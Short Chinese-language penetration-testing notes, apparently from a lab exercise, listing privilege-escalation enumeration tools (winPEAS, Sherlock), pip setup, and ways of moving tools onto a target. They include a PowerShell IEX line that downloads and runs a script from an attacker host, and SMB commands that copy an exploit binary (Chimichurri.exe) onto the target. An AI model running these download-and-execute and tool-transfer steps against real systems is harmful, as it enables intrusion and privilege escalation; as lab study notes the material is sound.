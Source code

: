
- 提权枚举脚本 

  [PEASS-ng/winPEAS at master · carlospolop/PEASS-ng · GitHub](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

  https://github.com/rasta-mouse/Sherlock

  例子 `Sherlock` ：

  ```
  echo 'Find-AllVulns' >> Sherlock.ps1   # kali 执行
  IEX(New-Object Net.WebClient).downloadstring('http://10.10.16.5/Sherlock.ps1')  # 靶机执行
  ```






- python2 安装 pip

  https://github.com/AonCyberLabs/Windows-Exploit-Suggester/issues/43)

  ```bash
  wget https://bootstrap.pypa.io/pip/2.7/get-pip.py   #下载pip
  python get-pip.py   #安装pip
  python -m pip -V    #查看安装pip的版本
  ```



- powershell 的 wget 命令

  ```powershell
  wget -Uri "https://bootstrap.pypa.io/pip/2.7/get-pip.py" -OutFile "get-pip.py" 
  ```

  

- 靶机从黑客服务器下载工具，除了 python 小型服务器外，还可以用 smb

  ```bash
  # kali 开启 smb 共享
  export PATH=/usr/share/doc/python3-impacket/examples:$PATH                                           
  smbserver.py share .
  ```

  ```
  # windows 靶机下载
  net use \\10.10.16.5\share
  copy \\10.10.16.5\share\Chimichurri.exe .
  ```

  

- restful 网站结构，可用字典查找网站路径，即 endpoint 信息

  ```bash
  /usr/share/wordlists/seclists/Discovery/Web-Content/api/api-endpoints-res.txt
  ```

  

- 反弹 shell 新思路
